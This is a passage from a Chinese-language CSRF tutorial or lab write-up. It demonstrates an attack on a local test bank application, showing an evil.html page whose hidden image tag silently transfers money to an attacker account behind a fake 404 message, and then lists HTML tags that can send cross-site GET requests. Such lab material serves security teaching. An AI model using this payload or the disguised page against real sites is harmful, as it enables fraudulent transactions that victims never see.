 ![](https://ws1.sinaimg.cn/large/006Vib6xly1fnxmjn5o8pj30xy0ktn0o.jpg)

受害者账户

![](https://ws1.sinaimg.cn/large/006Vib6xly1fnxml5id20j30y00kstc7.jpg)

攻击者用户

![](https://ws1.sinaimg.cn/large/006Vib6xly1fnxmmplnfpj30xy0ku422.jpg)

## 0x02 漏洞的简单利用

代码中没有任何过滤，只有cookie的检查，所以只要引诱受害者访问写入了恶意代码的恶意网站，如果此时受害者恰巧访问了银行，或者cookie还没有过期，那么攻击将执行。如下是一个简单的恶意代码：

### evil.html

```html
  1 <img src="http://localhost:8001/csrf/account.php?uname=zyq&amount=100#" border="0" style="display:none;"/>
  2 <h1>404</h1>
  3 <h2>file not found.</h2>
```



![](https://ws1.sinaimg.cn/large/006Vib6xly1fnxn6lsduoj30xy0kqtbz.jpg)

引诱受害者访问恶意网站，受害者以为他访问只是一个404错误的页面，然而，此时，他的钱已经打到了别人的账户上

受害者账户

![](https://ws1.sinaimg.cn/large/006Vib6xly1fnxnasqvi6j30xz0ktwi0.jpg)

攻击者账户

![](https://ws1.sinaimg.cn/large/006Vib6xly1fnxnd0lll1j30xy0kttca.jpg)

攻击成功触发

## 0x03 攻击方式

### 1. HTML攻击

即利用HTML元素发出GET请求（带src属性的HTML标签都可以跨域发起GET请求），如：

```html
<link href="…">
<img src="…">
<iframe src="…">
<meta http-equiv="refresh" content="0; url="…">
<script src="…">
<video src="…">
<audio src="…">
<a href="…">
<table background="…">
```
